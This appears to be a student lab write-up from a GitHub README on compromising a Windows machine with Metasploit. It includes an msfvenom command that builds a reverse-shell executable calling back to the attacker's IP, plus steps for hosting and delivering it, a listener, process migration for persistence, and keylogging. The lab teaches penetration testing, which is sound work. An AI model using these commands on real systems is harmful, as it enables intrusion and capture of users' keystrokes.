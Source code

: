 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![Screenshot 2025-04-26 135930](https://github.com/user-attachments/assets/95449f05-771c-482a-98df-11a3f1b9cca8)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![Screenshot 2025-04-26 135937](https://github.com/user-attachments/assets/e1e92ed4-6789-4a5c-98e8-3d8be31a3b04)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![Screenshot 2025-04-26 135942](https://github.com/user-attachments/assets/fdc39444-5ef5-4369-b760-fdc1f511137e)

Invoke msfconsole:
## OUTPUT:
![Screenshot 2025-04-26 135948](https://github.com/user-attachments/assets/3dd7cd86-c33f-42fa-9deb-48cffb6f3c69)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![Screenshot 2025-04-26 135953](https://github.com/user-attachments/assets/63cf8580-3f97-4bd1-ac3c-a037f8d8c928)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![Screenshot 2025-04-26 135958](https://github.com/user-attachments/assets/f776795a-1b66-4f80-9acf-5a5646048746)

WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![Screenshot 2025-04-26 140006](https://github.com/user-attachments/assets/34677129-21fb-485a-ac21-42a4298956d9)

## DOWNLOAD OUTPUT:
![Screenshot 2025-04-26 140014](https://github.com/user-attachments/assets/f4a3cb04-6660-4208-95e0-2aaa18023578)

## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![Screenshot 2025-04-26 140020](https://github.com/user-attachments/assets/3e1a6d10-1919-4b79-8c49-ef020b6652f8)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![Screenshot 2025-04-26 140027](https://github.com/user-attachments/assets/5dbde45d-0565-48ae-81a1-2a3ccba8232e)


## WINDOWS OUTPUT :
![Screenshot 2025-04-26 140035](https://github.com/user-attachments/assets/ff956290-3044-4950-8bff-4c0e3b5f48f5)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![Screenshot 2025-04-26 140035](https://github.com/user-attachments/assets/aff02c1e-fb07-43e0-b674-06a194817f4c)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


